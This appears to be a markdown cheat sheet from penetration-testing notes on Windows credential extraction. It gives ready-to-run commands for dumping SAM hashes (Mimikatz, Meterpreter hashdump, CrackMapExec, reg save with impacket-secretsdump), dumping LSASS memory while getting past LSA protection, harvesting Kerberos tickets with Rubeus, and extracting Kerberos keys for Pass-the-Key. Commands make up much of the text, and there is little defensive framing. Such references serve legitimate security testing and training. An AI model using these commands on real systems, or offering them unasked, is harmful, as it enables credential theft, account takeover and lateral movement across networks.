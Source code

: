 ```yaml
---
title: Windows privilege escalation
---
```


- [1. Extracting NT hash](#1-extracting-nt-hash)
  - [1.1. From local SAM](#11-from-local-sam)
    - [1.1.1. Mimiktaz](#111-mimiktaz)
    - [1.1.2. SAM dumping and offline hashes extraction](#112-sam-dumping-and-offline-hashes-extraction)
  - [1.2. From LSASS memory](#12-from-lsass-memory)
- [2. Extracting Kerberos TGT](#2-extracting-kerberos-tgt)
- [3. Extracting Kerberos user's key](#3-extracting-kerberos-users-key)

## 1. Extracting NT hash

### 1.1. From local SAM
SAM (Security Account Manager) is a database with all the **local user** accounts and passwords. It acts as a database. Passwords, which are stored in the SAM, are hashed. SAM data is used by LSASS to verify user credentials.

#### 1.1.1. Mimiktaz
Mimikatz is one of the tools that are able to dump SAM file hashes.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Metasploit, when the session is already established, has built-in ability to dump SAM hashes.

```bash
# Meterpreter
meterpreter > hashdump
```

CrackMapExec tool is able to remotely dump SAM hashes (via SMB using credentials).

```bash
crackmapexec smb <target-ip> -u <username> -p <password> --sam
```

#### 1.1.2. SAM dumping and offline hashes extraction
If an attacker has privileges to access any file in the system, then he can export SAM and SYSTEM keys from the Windows registry and perform the extraction of hashes offline.

```powershell
# Dump SYSTEM hashes
reg save hklm\system <dump-file>

# Dump SAM hashes
reg save hklm\sam <dump-file>
```

Now, transfer files to the attacker machine.

```bash
# Dump hashes offline
impacket-secretsdump -sam <sam-file> -system <system-file> LOCAL 
```

### 1.2. From LSASS memory
LSASS (_Local Security Authority Subsystem Service_) is a process running on every Windows OS. It verifies users logging, handles password changes, creates access tokens, writes to the Windows Security Log. In a domain environment LSASS communicates with a Domain Controller. It manages NTLM, Kerberos, NetLogon authentication. It's not possible to use Windows without `lsass.exe` running. An attacker is able to dump the LSASS process memory and retrieve NT hashes.

Tips:

- Memory dump must be performed after logging in successfully. Correct data must be provided to LSASS process before extraction.
- Memory dump should be performed from SYSTEM or local Administrator account.
- Not secured LSASS memory dump can be performed using built-in Windows tools (e.g. [dump.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)). Then credentials can be extracted offline.

LSASS process might have additional security layer called _LSA protection_. It can be omitted with tools like **Mimikatz**.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "exit"
```

## 2. Extracting Kerberos TGT
Kerberos tickets can be extracted from LSASS memory (Kerberos harvesting) using `mimikatz` or `rubeus` tool. Most often it requires administrator privileges.

```powershell
# Show all Kerberos tickets stored in memory (and associated services)
Rubeus.exe triage

# Dump Kerberos tickets of :user
Rubeus.exe dump /user:<user>

# Dump Kerberos tickets of :service
Rubeus.exe dump /service:<service>
```

## 3. Extracting Kerberos user's key
It's being done to perform Pass-the-Key attack.

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```
